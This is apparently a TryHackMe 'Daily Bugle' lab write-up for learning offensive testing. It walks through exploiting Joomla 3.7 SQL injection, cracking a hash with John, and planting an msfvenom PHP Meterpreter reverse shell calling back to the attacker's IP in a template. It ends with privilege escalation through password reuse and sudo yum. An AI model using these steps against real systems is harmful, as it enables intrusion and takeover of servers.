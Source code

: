 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Offensive_Pentesting
contest_name: Offensive Pentesting
problem_code: DAILY_BUGLE
problem_name: Daily Bugle
comments: false
tags: SQLi joomla RCE
date: 2022-01-31
---
```


### Rust Scan scanning tool was used to enumerate the running services on the server. Turns out it has SSH, Web service Joomla and  MySQL Database running

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/rustscan2.png)

‎


### Upon visiting port 80, it brought us a web page called daily budge

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/index.png)

‎


### I tried to exploit to perform SQLi on the login page, but got me nothing. So I decided to enumerate any hidden pages and got a few interesting results. One of them was the readme.txt

```
gobuster dir -t 30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.133.246 -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/gobuster.png)

‎


### Upon visiting Readme.txt, it tells us Joomla version - 3.7

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/readme.png)

‎


### Running this version on Searchsploit show us it is vulnerable to SQLi 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/searchsploit1.png)

‎


### We can see that we can inject SQL statements in the following URL

```
index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(<SQL Syntax>)
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/searchsploit2.png)

‎


### We can exploit this manually, however it also accepts 1 column. Thus, it will be faster if used a script which I found here 
### When executed, I got credentials of user Jonah

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/sqli_exploit.png)

‎


### Using the credentials we got, we cracked it using John the Ripper

```
john --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/john.png)

‎


### I used to credentials to log to SSH but that didn't work. Instead, I used that to login into the Joomla admin console which gave me access

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/admin_console.png)

‎


### After a couple of minutes of research, I found out that I could execute PHP commands from the admin console. `Extensions > Templates > Templates` will bring you to a bunch of templates

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/templates.png)

<p style="color:orange;">You can click on either one, and it will bring you to templates php scripts</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/scripts.png)

‎


### So what we can do is inject a reverse shell into the template to get a shell when the template is loaded. Thus, I used MSFvenom to generate a PHP shellcode and create a Meterpreter Listener

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.21.149 LPORT=9999 -f raw > shell.php
```
<p style="color:orange;">Then I Injected the shell code into the index.php of the template</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/injection.png)

‎


### To load the template, I clicked on the template preview and it got me a shell

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/load.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/shell.png)

‎


### For further enumeration, I have uploaded and run Linpeas. It then found a password in a PHP configuration file.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/password.png)

<p style="color:orange;">After further inspection, I can see that this password is used for MySQL database authentication as root</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/config.png)

<p style="color:orange;">Since there is a possibility that the password could be reused, I used it to log in into a higher privileged account - Jameson which worked</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/escalate1.png)

‎


### To further escalate my privileges to root, I decided check my Sudo privileges. It shows that I could execute yum as root

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/enumerate.png)

<p style="color:orange;">To exploit, I checked out GTFO Bins</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/gtfo.png)

<p style="color:orange;">Final exploit gave me a root shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Daily%20Bugle/escalate2.png)

